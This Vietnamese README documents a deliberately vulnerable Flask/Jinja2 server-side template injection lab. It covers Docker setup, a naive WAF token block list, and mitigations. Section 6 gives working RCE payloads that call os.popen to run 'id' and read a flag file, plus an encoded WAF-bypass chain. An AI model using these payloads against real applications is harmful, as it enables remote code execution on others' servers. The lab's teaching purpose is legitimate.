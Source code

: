 # SSTI Lab (Flask + Jinja2)

## 1) Giới thiệu

Lab mô phỏng lỗ hổng **SSTI (Server-Side Template Injection)** trong **Flask/Jinja2**. Ứng dụng cố tình **nhúng trực tiếp** dữ liệu do người dùng nhập vào **chuỗi template** rồi render bằng `render_template_string(...)`, dẫn đến Jinja2 biên dịch và thực thi biểu thức template do người dùng cung cấp.

Bản lab có kèm **“naive WAF”** minh họa, chặn một số token thường thấy trong khai thác SSTI:  
`'.'`, `'_'`, `'|join'`, `'['`, `']'`, `'mro'`, `'base'`.

---

## 2) Cấu trúc thư mục

```
ssti-lab/
├─ app.py                 # Ứng dụng Flask (có lỗ hổng SSTI + naive WAF)
├─ requirements.txt       # Thư viện Python
├─ Dockerfile             # Image chạy app
├─ docker-compose.yml     # Chạy nhanh bằng compose
├─ templates/
│  ├─ base.html           # Khung giao diện
│  └─ index.html          # Trang "an toàn" (safe-preview)
└─ README.md              # Tài liệu (file này)
```

---

## 3) Chạy nhanh

### Cách 1: Docker Compose (khuyên dùng)

```bash
docker compose up --build
# Sau đó mở: http://127.0.0.1:4000/
```

### Cách 2: Docker thuần

```bash
docker build -t ssti-lab .
docker run --rm -p 4000:4000 ssti-lab
# Mở: http://127.0.0.1:4000/
```

### Cách 3: Chạy local (không Docker)

```bash
python -m venv .venv
. .venv/bin/activate          # Windows: .venv\Scripts\activate
pip install -r requirements.txt
python app.py
# Mở: http://127.0.0.1:4000/
```

---

## 4) Các route chính

- `/` – **SSTI Playground** (có lỗ hổng).  
  Nhập payload vào ô input. Ứng dụng sẽ **chèn trực tiếp** payload vào template string và render bằng Jinja2.

- `/safe-preview` – **Ví dụ an toàn** (không lỗ hổng).  
  Chỉ render biến đã **escape** trong template file cố định.

---

## 5) Naive WAF minh họa

Trong `app.py`, payload sẽ bị **chặn** nếu chứa **bất kỳ** token sau (không phân biệt hoa thường, `|join` cho phép khoảng trắng sau `|`):

- `.` (dấu chấm)
- `_` (gạch dưới)
- `|join`
- `[` và `]`
- `mro`
- `base`

Khi bị chặn, trang sẽ hiển thị banner “Bị chặn bởi WAF” và chỉ **echo** payload theo kiểu text an toàn (không render như template).

---

## 6) Khai thác (trong lab)

1. **Thử SSTI cơ bản**
   - Nhập: `{{7*7}}`  
   - Kỳ vọng: hiển thị `49`.

2. **Thử đọc thông tin môi trường**
   - Ví dụ: `{{ config }}` hoặc `{{ request.environ['SERVER_NAME'] }}`  
   - Tùy trường hợp WAF có thể chặn.

3. **RCE/đọc file (demo trong container lab)**
   - Ví dụ payload thường thấy (có thể bị chặn do chứa `.` hoặc `_`):
     ```python
     {{ cycler.__init__.__globals__.os.popen('id').read() }}
     {{ config.__class__.__init__.__globals__['os'].popen('uname -a').read() }}
     {{ cycler.__init__.__globals__.os.popen('cat /app/flag.txt').read() }}
     ```
   - Lab có file `flag.txt` mẫu tại `/app/flag.txt` để bạn quan sát hành vi đọc file/RCE **bên trong container** (không phải máy host).

- Payload bypass WAR:
   ```python
   {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('id')|attr('read')()}}
   ```


---

## 7) Tại sao có lỗ hổng?

Trong route `/`, server **nhúng trực tiếp** chuỗi người dùng nhập (`q`) vào **template string** rồi gọi `render_template_string(...)`. Khi đó, mọi biểu thức `{{ ... }}` trong payload sẽ được Jinja2 **diễn giải và thực thi phía server** → **SSTI**.

> Lưu ý: trước đây nếu bạn dùng toán tử format `%` để chèn `q` vào template có chứa nhiều `{% ... %}`, Python có thể ném lỗi `TypeError: must be real number, not str` vì lẫn lộn `%`. Bản hiện tại dùng `replace`/placeholder để tránh xung đột đó.

---

## 8) Phòng tránh 

- **Không bao giờ** đưa user input vào template string.  
  Dùng template **cố định** (`render_template`) và **escape** biến (autoescape mặc định của Jinja2).
- Tránh truyền các đối tượng có thể dẫn đến truy cập `__globals__` vào context.
- Bật `StrictUndefined` trong Jinja2 để giảm khả năng “dò thuộc tính”.
- Ở tầng kiến trúc: tách chức năng “preview text” ra khỏi engine template (hiển thị text thuần, không biên dịch).

---

